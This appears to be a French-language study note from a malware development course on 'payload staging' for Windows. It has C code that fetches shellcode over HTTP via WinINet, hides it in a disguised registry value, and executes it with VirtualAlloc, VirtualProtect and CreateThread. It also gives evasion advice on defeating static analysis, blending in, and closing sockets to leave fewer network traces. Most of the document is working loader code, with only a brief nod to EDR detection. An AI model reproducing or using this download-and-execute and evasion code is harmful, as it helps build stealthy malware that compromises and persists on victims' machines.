


# Staging du payload

Le staging consiste à **ne pas embarquer le payload dans le binaire**, mais à le récupérer à l'exécution depuis un support externe. Le porteur devient un simple « stager » : petit, discret, difficile à qualifier par analyse statique puisque le code malveillant n'y figure pas. Deux supports sont classiques côté Windows : un serveur web interrogé via WinINet, et la base de registre.

| Approche | Support du payload | Avantage | Limite |
|---|---|---|---|
| Embarqué | Dans le binaire (section `.data`) | Aucune dépendance réseau | Empreinte détectable statiquement, taille du binaire |
| Serveur web | Fichier servi en HTTP/S | Payload modifiable, taille libre | Trafic réseau observable, dépendance à la connectivité |
| Base de registre | Valeur binaire d'une clé | Aucun fichier sur disque, pas de trafic réseau | Taille limitée, écriture préalable requise |

Les considérations de taille et d'emplacement recoupent celles de [[Placement du payload]], et la protection du payload au repos relève du [[Chiffrement du payload]] et de l'[[Obfuscation du payload]].

## Staging via serveur web

Le payload est hébergé sur une machine contrôlée par l'attaquant. Le plus court chemin pour lever un serveur de test consiste à utiliser le module HTTP de Python :

```powershell
python -m http.server 8000
```

Le fichier est servi depuis le répertoire courant, vérifiable dans un navigateur à l'adresse `http://127.0.0.1:8000`. La récupération s'effectue avec les API **WinINet**.

| API | Rôle |
|---|---|
| `InternetOpenW` | Ouvre une session Internet (prérequis à toutes les autres) |
| `InternetOpenUrlW` | Ouvre un handle sur l'URL du payload |
| `InternetReadFile` | Lit les données dans un buffer, par blocs |
| `InternetCloseHandle` | Ferme un handle Internet |
| `InternetSetOptionW` | Modifie une option, notamment pour forcer la fermeture des connexions |



L'ouverture de session se fait avec tous les paramètres à `NULL` : cela équivaut à `INTERNET_OPEN_TYPE_PRECONFIG`, c'est-à-dire l'usage de la configuration proxy du système, ce qui est le comportement le plus discret.

```c
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL,
                                 INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
```

Les deux flags de `InternetOpenUrlW` visent à maximiser le taux de succès : `INTERNET_FLAG_HYPERLINK` autorise le recours au cache, `INTERNET_FLAG_IGNORE_CERT_DATE_INVALID` évite l'échec sur un certificat expiré. D'autres variantes existent, comme `INTERNET_FLAG_IGNORE_CERT_CN_INVALID`.

### Allocation dynamique de la taille

Une taille codée en dur provoque un débordement de tas si le payload lu dépasse le buffer. La solution consiste à lire par blocs de `1024` octets dans un buffer temporaire, à réallouer le buffer total à chaque itération et à s'arrêter dès qu'une lecture renvoie **moins** de `1024` octets, signe de fin de flux.

```c
while (TRUE) {
    if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead))
        break;

    sSize += dwBytesRead;

    if (pBytes == NULL)
        pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);            // premier bloc, taille réelle
    else
        pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);

    if (pBytes == NULL)
        break;

    memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
    memset(pTmpBytes, '\0', dwBytesRead);                          // nettoyage du tampon temporaire

    if (dwBytesRead < 1024)
        break;                                                     // fin du fichier atteinte
}
```

La fonction finale `GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize)` encapsule cette logique et renvoie l'adresse du buffer ainsi que la taille totale du payload.

> [!important] Fermer réellement la connexion
> `InternetCloseHandle` ne coupe pas la connexion HTTP/S : WinINet réutilise les sockets et laisse la connexion active même après la fin du programme, ce qui est un signal réseau exploitable. Il faut appeler `InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0)` pour forcer le vidage des paramètres en cache et la fermeture des connexions.

```c
InternetCloseHandle(hInternet);
InternetCloseHandle(hInternetFile);
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);   // ferme les connexions WinINet
```

## Staging via la base de registre

L'idée est de dissocier le stockage du payload de son exécution : un premier binaire écrit le payload (idéalement chiffré) dans une valeur de registre, et le stager le relit, le déchiffre et l'exécute. Le binaire porteur ne contient alors aucun shellcode détectable. Le chiffrement et la désobfuscation s'appuient sur les routines de [[Outils HellShell et MiniShell]].



### Compilation conditionnelle

Un seul projet, deux comportements, sélectionnés à la compilation par des macros : `WRITEMODE` active le bloc d'écriture, `READMODE` celui de lecture. Les blocs inactifs ne sont jamais compilés.

```c
#define READMODE   // ou #define WRITEMODE

#ifdef READMODE
    // Code de lecture depuis le registre
#endif

#ifdef WRITEMODE
    // Code d'écriture (non compilé dans ce build)
#endif
```

### Écrire le payload

Deux constantes nomment l'emplacement : `REGISTRY` (la sous-clé, par exemple `Control Panel`) et `REGSTRING` (le nom de la valeur, par exemple `MalDevAcademy`). En contexte réel, on choisit un nom plausible de type `PanelUpdateService` ou `AppSnapshot` pour se fondre dans l'environnement.

| API | Rôle | Paramètre notable |
|---|---|---|
| `RegOpenKeyExA` | Ouvre la clé en écriture | `samDesired = KEY_SET_VALUE` |
| `RegSetValueExA` | Crée la valeur et y écrit les données | `dwType = REG_BINARY` |
| `RegCloseKey` | Ferme le handle de clé | À appeler dans tous les cas |

```c
#define REGISTRY  "Control Panel"
#define REGSTRING "MalDevAcademy"

STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);
STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);
RegCloseKey(hKey);
```

### Lire le payload

La lecture exige de connaître la taille à l'avance : `RegGetValueA` n'expose pas de lecture en flux, elle renvoie la valeur d'un bloc. On alloue donc d'abord un buffer via `HeapAlloc`, puis on lit la valeur binaire.

```c
pBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sPayloadSize);
STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);

if (sPayloadSize != dwBytesRead)   // contrôle d'intégrité : tout le payload doit avoir été lu
    return FALSE;
```

Le flag `RRF_RT_ANY` accepte tout type de donnée ; `RRF_RT_REG_BINARY` restreindrait au type binaire. Le contrôle `sPayloadSize == dwBytesRead` évite de travailler sur un buffer partiellement rempli.

### Exécuter le payload

Une fois la valeur lue et déchiffrée, l'exécution se fait exactement comme pour un payload local : allocation en `PAGE_READWRITE`, copie, remise à zéro de la source, passage en `PAGE_EXECUTE_READWRITE`, puis `CreateThread`. Les détails figurent dans [[Exécution locale de payload]].

```c
pShellcodeAddress = VirtualAlloc(NULL, sDecryptedShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(pShellcodeAddress, pDecryptedShellcode, sDecryptedShellcodeSize);
memset(pDecryptedShellcode, '\0', sDecryptedShellcodeSize);

VirtualProtect(pShellcodeAddress, sDecryptedShellcodeSize, PAGE_EXECUTE_READWRITE, &dwOldProtection);
CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
```

## Considérations opérationnelles

- Un payload récupéré en clair est vulnérable à l'inspection réseau : les journaux d'un proxy ou le contenu d'une capture contiennent alors la signature du shellcode. Il est donc impératif de chiffrer le payload, même lorsqu'il est récupéré à la volée.
- Le trafic WinINet sortant vers une adresse inhabituelle, ou l'écriture d'une valeur binaire volumineuse dans une clé de registre anodine, constituent des indicateurs comportementaux pour un EDR. Voir [[Mécanismes de détection]].
- La valeur stockée dans le registre persiste après la fin du processus : contrairement à une injection purement mémoire, la trace est durable et exploitable en investigation. Pour le stockage chiffré, les techniques de [[Déchiffrement par force brute]] décrivent la démarche de l'analyste cherchant à retrouver la clé.
